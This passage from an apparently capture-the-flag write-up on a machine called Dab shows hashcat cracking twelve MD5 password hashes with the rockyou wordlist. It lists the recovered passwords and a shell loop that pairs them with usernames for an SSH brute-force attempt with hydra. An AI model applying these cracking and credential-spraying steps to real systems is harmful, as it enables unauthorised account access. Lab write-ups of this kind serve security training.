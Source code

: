 #### Crack Hashes

These are simple md5 hashes, and 12 crack with `hashcat` and rockyou:

```

$ hashcat -a 0 -m 0 users-hashes /usr/share/wordlists/rockyou.txt --force -o cracked
$ hashcat users-hashes --show
eb95fc1ab8251cf1f8f870e7e4dae54d:megadeth
fc7992e8952a8ff5000cb7856d8586d2:Princess1
fe01ce2a7fbac8fafaed7c982a04e229:demo
2ac9cb7dc02b3c0083eb70898e549b63:Password1
254e5f2c3beb1a3d03f17253c15c07f3:hacktheplanet
c21f969b5f03d33d43e04f8f136e7682:default
9731e89f01c1fb943cf0baa6772d2875:piggy
0ef9c986fad340989647f0001e3555d4:misfits
5177790ad6df0ea98db41b37b602367c:strength
6f9ff93a26a118b460c878dc30e17130:monkeyman
1e0ad2ec7e8c3cc595a9ec2e3762b117:blaster
0daa6275280be3cf03f9f9c62f9d26d1:lovesucks1

```

## Shell as genevieve

### Organize Usernames / Passwords

Now that I have 12 accounts and passwords, I’ll check if any can be used to SSH into Dab. 12 is few enough that I could probably just try them by hand. Still, it’s more fun to automate it a bit.

I’ve got a file with `hash:password`, and another file with json `"username": "hash"`. I want to have a file with `username:password` so I can run it into `hydra`. I’ll loop over the hash/password combinations and then use grep to find the username.

```

root@kali# cat cracked | while read c; do hash=$(echo ${c} | cut -d: -f1); pass=$(echo $c | cut -d: -f2); username=$(grep ${hash} users | cut -d: -f1); echo "${username}:${pass}"; done > user_pass

root@kali# cat user_pass
wendell:megadeth
genevieve:Princess1
demo:demo
admin:Password1
d_murphy:hacktheplanet
default:default
abbigail:piggy
aglae:misfits
irma:strength
ona:monkeyman
alec:blaster
rick:lovesucks1

```
